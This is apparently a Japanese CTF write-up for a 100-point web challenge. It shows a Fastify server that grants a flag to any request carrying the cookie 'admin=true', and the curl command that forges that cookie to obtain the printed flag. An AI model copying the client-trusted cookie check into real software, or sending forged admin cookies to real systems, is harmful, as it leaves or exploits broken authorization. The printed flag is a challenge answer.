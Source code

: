 # 🍪:Web:100pts
ある条件を満たすとフラグが得られるようです  
```javascript
import Fastify from "fastify";
import fastifyCookie from "@fastify/cookie";

const fastify = Fastify();
fastify.register(fastifyCookie);

fastify.get("/", async (req, reply) => {
  reply.setCookie('admin', 'false', { path: '/', httpOnly: true });
  if (req.cookies.admin === "true")
    reply.header("X-Flag", process.env.FLAG);
  return "can you get the flag?";
});

fastify.listen({ port: process.env.PORT, host: "0.0.0.0" });
```
_*完全なソースコードは以下からダウンロード可能です。_  

[cookie.tar.gz](cookie.tar.gz)  

[http://34.170.146.252:6407](http://34.170.146.252:6407)  

# Solution
ソースとURLが渡される。  
アクセスすると`can you get the flag?`と表示される。  
```bash
$ curl http://34.170.146.252:6407
can you get the flag?
```
ソースより`req.cookies.admin`が`true`であると`X-Flag`ヘッダでフラグが返されるようだ。  
```bash
$ curl http://34.170.146.252:6407 -H 'Cookie: admin=true' -I
HTTP/1.1 200 OK
x-flag: Alpaca{7h3_n4m3_c0m35_fr0m_B3cky}
content-type: text/plain; charset=utf-8
set-cookie: admin=false; Path=/; HttpOnly; SameSite=Lax
content-length: 21
Date: Mon, 03 Mar 2025 02:26:21 GMT
Connection: close
Keep-Alive: timeout=72
```
ヘッダをつけてcurlするとflagが得られた。  

## Alpaca{7h3_n4m3_c0m35_fr0m_B3cky}